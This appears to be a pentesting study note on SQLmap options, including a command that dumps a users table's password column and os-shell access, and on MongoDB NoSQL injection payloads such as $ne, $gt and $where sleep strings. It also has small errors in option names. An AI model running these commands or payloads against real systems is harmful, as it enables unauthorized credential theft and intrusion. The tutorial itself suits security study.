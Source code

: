     - The `-r` option in SQLmap allows you to provide a saved HTTP request file (from Burp Suite, for instance), instead of a URL. This request file contains all headers, parameters, and data SQLmap will use for its testing.
- **`-p` Parameter Option**:
    
    - `-p` specifies which parameter(s) to test for SQL injection (like `id`, `username`, or `password`). SQLmap will try SQL injection techniques on the specified parameters to see if it can get a SQL response. If you don't specify any parameter SQLmap will try every possibly parameter, which is time consuming.
###### More examples
Also you could use certain parameter to dump all the data 
```
sqlmap -r /home/hapihacker/burprequest1 -p vuln-param –dump -T users -C password -D helpdesk
```
This example attempts to dump (`-dump`) the password column (`-C`) of the users table (`-T`)within the helpdesk database (`-D`).
Another interesting options worth to mention it are: 
- `os-shell`: Will attempt to upload SQL command access
- `os-pwm`: A powerful and more sophisticated shell

-------
### No-SQLI

No SQLI it's an umbrella term as refer to inject an injection from any database that isn't SQL.. This are example of commands.

```
$gt 
{"$gt":""} 
{"$gt":-1}
```
$gt is a MongoDB NoSQL query operator that selects documents that are **g**reater **t**han the provided value

```
$ne 
{"$ne":""} 
{"$ne":-1}
````
The $ne query operator selects documents where the value is not equal to the provided value

```
$nin 
{"$nin":1} 
{"$nin":[1]}
````
The $nin operator is the “not in” operator, used to select documents where the field value is not within the specified array
	
```
|| '1'=='1 
// 
||'a'\\'a 
'||'1'=='1';// 
'/{}: '"\;{} 
'"\/$[].> 
{"$where": "sleep(1000)"}
```
This others commands are meant to cause an error or waiting 10 seconds
